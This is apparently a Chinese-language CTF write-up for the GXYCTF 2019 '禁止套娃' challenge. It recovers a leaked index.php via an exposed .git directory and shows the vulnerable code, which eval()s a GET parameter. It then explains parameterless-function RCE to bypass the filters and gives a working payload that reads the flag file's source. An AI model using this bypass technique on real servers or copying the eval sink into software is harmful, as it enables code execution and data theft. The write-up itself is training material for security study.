

# 2021/07/21

## 禁止套娃

> GXYCTF 2019

### 题目

页面上啥也没有


先用`ctf-wscan`扫下文件，发现存在`/.git/`目录，说明是**Git泄露**，`GitHack`跑一下，发现`index.php`

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

本质是个**代码执行**，第一层先把各种**伪协议**都过滤了，第二层参数只能为`*()`的无参数函数形式，第三层是过滤了一些关键字，这道题考察的是**无参数RCE**，常见的可能利用到的函数如下

| 函数名                           | 功能                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| `array_flip()`                   | 交换数组中的键和值                                           |
| `array_rand()`                   | 从一个数组中随机取出一个或者多个单元                         |
| `array_reverse()`                | 返回一个顺序相反的数组                                       |
| `current()/pos()`                | 返回当前元素                                                 |
| `end()`                          | 将数组内部指针指向最后一个单元                               |
| `key()`                          | 取得键名                                                     |
| `each()`                         | 返回数组中当前的键值对并将数组指针前移一位                   |
| `pev()`                          | 将数组的内部指针倒退以为                                     |
| `reset()`                        | 将数组的内部指针指向第一个单元                               |
| `next()`                         | 将数组的内部指针指向下一位                                   |
| `highlight_file()/show_source()` | 语法高亮一个文件                                             |
| `scandir()`                      | 列出指定路径中的文件和目录                                   |
| `direname()`                     | 给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名 |
| `getcwd()`                       | 取得当前工作目录                                             |
| `chdir($directory)`              | 将 PHP 的当前目录改为 directory                              |
| `get_defined_vars()`             | 此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量 |
| `getenv()`                       | 获取一个环境变量的值                                         |
| `localeconv()`                   | 返回一包含本地数字及货币格式信息的数组,第一个值一直是`.`     |
| `phpversion()`                   | 获取当前的PHP版本                                            |
| `session_id()`                   | 获取/设置当前会话 ID                                         |
| `session_start()`                | 启动新会话或者重用现有会话                                   |

先试试`print_r(scandir(pos(localeconv())));`



这样，我们只需要先把数组翻转过来`array_reverse()`，然后将数组指针指向下一个`next()`，再读取源码`highlight_file()/show_source()`就可以得到`flag`

### payload

```
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```